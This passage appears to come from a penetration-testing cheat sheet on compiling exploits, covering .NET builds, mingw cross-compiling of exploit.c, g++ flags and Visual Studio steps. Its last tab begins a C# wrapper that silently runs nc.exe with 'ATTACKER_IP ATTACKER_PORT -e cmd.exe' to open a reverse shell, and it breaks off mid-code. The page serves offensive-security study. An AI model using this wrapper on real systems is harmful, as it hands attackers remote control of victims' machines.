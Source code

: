 {% tabs %}
{% tab title="C# and .NET" %}
Other tools: Roslyn, GCC, MinGW, LLVM, TCC, MSBUild

```bash
Create a new project > Console App (.NET Core)
Place solution and project in the same directory
Build > Build Solution
```
{% endtab %}

{% tab title="Linux" %}
{% code overflow="wrap" %}
```bash
sudo apt install mingw-w64
# Compile 64-bit binaries
x86_64-w64-mingw32-gcc exploit.c -o exploit.exe #use this if there is a makefile
x86_64-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32
# IMPORTANT: in case a part of an exploit is missing or not working, check also the exploit built for other platforms/technologies in case there is any idea/command/value to fix ours.
make 2>/dev/null #build the binary

# .cpp,.sln on Linux
g++ -Wall -Wextra -pedantic -std=c++11 example.cpp
Using -Wall and -Wextra give a decent warning level to start out with -pedantic tells you if you're trying to use a compiler extension that works but would make your code less portable, and last but not least you should always specify the standard you want to use, be it -std=c++11, -std=c++14 or the older -std=c++98.
```
{% endcode %}
{% endtab %}

{% tab title="VS + alternative" %}
<pre class="language-c" data-overflow="wrap"><code class="lang-c">Visual Studio Community 2019 with NET Framework (aprox 3,5 GB)
Simply open up the project .sln, choose "Release", and build
<strong>
</strong><strong># Issues
</strong>https://github.com/NuGet/Home/issues/5127#issuecomment-2016557136
<strong>
</strong><strong># Compile .sln to exe/dll
</strong>Change Debug to Release
Select Build Solution
Then go to the projectfolder\x64\Release\whatever.exe
If the executable does not work > Go to Project > Click on the right side (tree with files) > Properties > Change Target framework to 4 or 5
<strong>
</strong><strong>-------------------
</strong># VISUAL STUDIO ALTERNATIVE (MONO, .NET COMPILER FOR LINUX)
sudo apt install mono-devel
# Open a file called FILE.cs and include the following to call an executable:
using System; //Add imports for basic functions
using System.Diagnostics;
namespace Wrapper{ //initialise a namespace and class for the program
    class Program{
        static void Main(){
            // Our code will go here!
            // create a new process, as well as a ProcessStartInfo object to set the parameters for the process
            Process proc = new Process();
            ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc.exe", "ATTACKER_IP ATTACKER_PORT -e cmd.exe");
            // configure the process to not create it's own GUI Window when starting
            procInfo.CreateNoWindow = true;